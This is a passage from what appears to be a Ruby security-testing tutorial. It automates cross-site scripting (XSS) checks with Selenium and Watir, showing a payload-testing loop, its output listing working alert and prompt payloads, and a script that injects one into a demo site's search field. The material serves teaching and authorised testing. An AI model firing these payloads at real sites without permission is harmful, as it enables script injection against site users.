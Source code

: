 ```ruby
payloads.each do |payload|
  input = wait.until do
      element = browser.find_element(:name, 'txtSearch')
      element if element.displayed?
  end
  input.send_keys(payload)
  input.submit

  begin
    wait.until do
      txt = browser.switch_to.alert
      if (1..100) === txt.text.to_i
        puts "Payload is working: #{payload}"
        txt.accept
      end
    end
  rescue Selenium::WebDriver::Error::NoAlertOpenError
    puts "False Positive: #{payload}"
    next
  end

end

browser.close
```

Result

```text
> ruby selenium-xss.rb
Payload is working: <video src=x onerror=alert(1);>
Payload is working: <img src=x onerror='alert(2)'>
Payload is working: <script>alert(3)</script>
Payload is working: <svg/OnlOad=prompt(4)>
False Positive: javascript:alert(5)
False Positive: alert(/6/.source)
```

## Watir Webdriver

[**Watir**](http://watirwebdriver.com/) is abbreviation for \(Web Application Testing in Ruby\). I believe that Watir is more elegant than Selenium but I like to know many ways to do the same thing, just in case.

* install watir gem

  ```text
  gem install watir
  ```

### GET Request

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'watir'

browser = Watir::Browser.new :firefox
browser.goto "http://www.altoromutual.com/search.aspx?"
browser.text_field(name: 'txtSearch').set("<img src=x onerror='alert(1)'>")
btn = browser.button(value: 'Go')
puts btn.exists?
btn.click

# browser.close
```
